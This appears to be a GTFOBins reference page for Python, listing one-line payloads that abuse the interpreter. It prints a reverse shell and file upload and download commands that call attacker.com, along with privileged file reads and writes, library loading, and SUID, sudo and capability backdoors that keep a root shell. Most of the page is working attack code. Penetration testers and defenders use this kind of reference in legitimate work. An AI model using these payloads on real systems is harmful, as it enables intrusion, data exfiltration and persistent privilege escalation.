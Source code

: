# GTFOBin: python

The payloads are compatible with both Python version 2 and 3.

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

```
python -c 'import os; os.system("/bin/sh")'
```

## Reverse shell

It can send back a reverse shell to a listening attacker to open a remote network access.

Run `socat file:`tty`,raw,echo=0 tcp-listen:12345` on the attacker box to receive the shell.

```
export RHOST=attacker.com
export RPORT=12345
python -c 'import sys,socket,os,pty;s=socket.socket()
s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")'
```

## File upload

It can exfiltrate files on the network.

Send local file via “d” parameter of a HTTP POST request. Run an HTTP service on the attacker box to collect the file.

```
export URL=http://attacker.com/
export LFILE=file_to_send
python -c 'import sys; from os import environ as e
if sys.version_info.major == 3: import urllib.request as r, urllib.parse as u
else: import urllib as u, urllib2 as r
r.urlopen(e["URL"], bytes(u.urlencode({"d":open(e["LFILE"]).read()}).encode()))'
```

Serve files in the local folder running an HTTP server.

```
export LPORT=8888
python -c 'import sys; from os import environ as e
if sys.version_info.major == 3: import http.server as s, socketserver as ss
else: import SimpleHTTPServer as s, SocketServer as ss
ss.TCPServer(("", int(e["LPORT"])), s.SimpleHTTPRequestHandler).serve_forever()'
```

## File download

It can download remote files.

Fetch a remote file via HTTP GET request.

```
export URL=http://attacker.com/file_to_get
export LFILE=file_to_save
python -c 'import sys; from os import environ as e
if sys.version_info.major == 3: import urllib.request as r
else: import urllib as r
r.urlretrieve(e["URL"], e["LFILE"])'
```

## File write

It writes data to files, it may be used to do privileged writes or write files outside a restricted file system.

```
python -c 'open("file_to_write","w+").write("DATA")'
```

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

```
python -c 'print(open("file_to_read").read())'
```

## Library load

It loads shared libraries that may be used to run code in the binary execution context.

```
python -c 'from ctypes import cdll; cdll.LoadLibrary("lib.so")'
```

## SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
sudo install -m =xs $(which python) .

./python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
sudo python -c 'import os; os.system("/bin/sh")'
```

## Capabilities

If the binary has the Linux `CAP_SETUID` capability set or it is executed by another binary with the capability set, it can be used as a backdoor to maintain privileged access by manipulating its own process UID.

```
cp $(which python) .
sudo setcap cap_setuid+ep python

./python -c 'import os; os.setuid(0); os.system("/bin/sh")'
```